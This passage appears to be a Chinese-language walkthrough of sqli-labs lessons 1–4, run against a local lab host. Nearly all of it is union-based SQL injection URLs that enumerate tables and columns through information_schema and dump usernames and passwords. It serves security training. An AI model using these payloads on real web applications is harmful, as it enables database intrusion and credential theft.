

http://192.168.183.133/sqli-labs-master/Less-1/?id=1' order by 3 %23 //%23是#的url编码，可以注释后面的sql查询语句
3是试出来的，一般可以从5开始试，能正常显示就增加，不能就减少
接着看哪些字段可以用来输出我们想要的信息
1
http://192.168.183.133/sqli-labs-master/Less-1/?id=' union select 1,2,3%23
显示了2和3，所以2,3字段可以用来注入。
因为没有什么过滤，下面就直接一把梭。
1 2 3 4 5
http://192.168.183.133/sqli-labs-master/Less-1/?id=' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23 //爆表
http://192.168.183.133/sqli-labs-master/Less-1/?id=' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" %23 //爆字段
http://192.168.183.133/sqli-labs-master/Less-1/?id=' union select 1,group_concat(username),group_concat(password) from users %23 //获取用户名和密码信息
- Less-2
第二关在ID参数后面加'，通过报错可以看出本关是数字型注入。
而且本关依旧没有过滤，所以依旧是一把梭。
1 2 3 4 5 6 7 8 9 10 11 12
http://192.168.183.133/sqli-labs-master/Less-2/?id=1 order by 3%23 //确认可显示字段数
http://192.168.183.133/sqli-labs-master/Less-2/?id=0 union select 1,2,3 //确认哪些字段可用来注入，id为0是因为网页只能显示一条数据，所以要选一个不存在的id
http://192.168.183.133/sqli-labs-master/Less-2/?id=0 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23 //爆表
http://192.168.183.133/sqli-labs-master/Less-2/?id=0 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" %23 //爆字段
http://192.168.183.133/sqli-labs-master/Less-2/?id=0 union select 1,group_concat(username),group_concat(password) from users %23 //显示用户名和密码信息
- Less-3
输入"没有显示结果，但没有报错，显然是把双引号当成ID的参数输入了，然后输入'，报错了。 
从报错的信息我们可以知道原查询语句中有')，所以我们使用下面的语句验证一下
1 2 3
http://192.168.183.133/sqli-labs-master/Less-3/?id=1') and 1=1%23 //正常有显示
http://192.168.183.133/sqli-labs-master/Less-3/?id=1') and 1=2%23 //正常无显示
验证成功，那我们可以开始注入了。
1 2 3 4 5 6 7 8 9 10 11 12
http://192.168.183.133/sqli-labs-master/Less-3/?id=0') order by 3%23 //确认可显示字段数
http://192.168.183.133/sqli-labs-master/Less-3/?id=0') union select 1,2,3%23 //确认信息显示位置
http://192.168.183.133/sqli-labs-master/Less-3/?id=0') union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23 //爆表
http://192.168.183.133/sqli-labs-master/Less-3/?id=0') union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" %23 //爆字段
http://192.168.183.133/sqli-labs-master/Less-3/?id=0') union select 1,group_concat(username),group_concat(password) from users %23 //显示用户名和密码信息
- Less-4
第四关和第三关一样，只不过原查询语句由')变成了")，所以本题的注入语句把上一关的'换成"即可。
1 2 3 4 5 6 7 8 9 10 11 12
http://192.168.183.133/sqli-labs-master/Less-4/?id=0") order by 3%23 //确认可显示字段数
http://192.168.183.133/sqli-labs-master/Less-4/?id=0") union select 1,2,3%23 //确认信息显示位置
http://192.168.183.133/sqli-labs-master/Less-4/?id=0") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23 //爆表
http://192.168.183.133/sqli-labs-master/Less-4/?id=0") union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users" %23 //爆字段
http://192.168.183.133/sqli-labs-master/Less-4/?id=0") union select 1,group_concat(username),group_concat(password) from users %23 //显示用户名和密码信息